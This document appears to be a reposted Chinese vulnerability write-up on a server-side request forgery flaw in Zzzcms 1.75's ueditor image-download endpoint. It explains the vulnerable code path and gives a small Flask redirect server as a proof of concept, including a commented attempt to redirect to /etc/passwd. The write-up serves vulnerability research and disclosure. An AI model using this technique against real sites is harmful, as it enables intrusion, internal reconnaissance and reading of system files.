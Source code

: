 # Zzzcms 1.75 ssrf

> 原文：[https://www.zhihuifly.com/t/topic/3320](https://www.zhihuifly.com/t/topic/3320)

# Zzzcms 1.75 ssrf

## 一、漏洞简介

存在这个问题的接口主要功能是远程下载保存图片，但是后缀限制死了，因此远程下载webshell的目的应该是达不到了，退而求其次也可以作为SSRF利用，比如需要获取目标主机的真实IP地址的场景下。

## 二、漏洞影响

Zzzcms 1.75

## 三、复现过程

### 漏洞分析

功能实现在

```
plugins/ueditor/php/controller.php 
```

![image](img/551f5a294f14208f5a4e5d6dd06bbd0f.png)

传入的post参数进入safe_url函数进行处理，然后传入down_url函数。这里safe_url函数作用不大，主要是在down_url中的逻辑。

在down_url函数逻辑中根据url获取了保存的文件名和后缀，并且进行了文件名后缀的白名单限制和检测。

![image](img/828375d33ae30bc5ac9a9b33b1a5d812.png)

最后通过readfile进行远程资源获取（本地也可以，支持file协议），这里通过file_ext函数传入`http://XXXX/x.php?x.jpg`得到的文件名后缀仍然是php，对问号进行了处理，因此利用SSRF达到任意地址访问需要利用301/302跳转实现，本地搭建一个提供跳转的http服务器，然后进行访问：

```
from flask import Flask,redirect,request
app = Flask(__name__)
@app.route('/1.txt')
def index(page_name=''):
    #return redirect('file:///etc/passwd', code=301) #not work
    return redirect('http://www.net.cn/static/customercare/yourip.asp', code=301)
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=9000, debug=app.debug) 
```

![image](img/d3376de66d04c143da5df304c350afb9.png)

![image](img/eedb71189c8c33917398cf26caa1e29d.png)

## 参考链接

> https://xz.aliyun.com/t/7414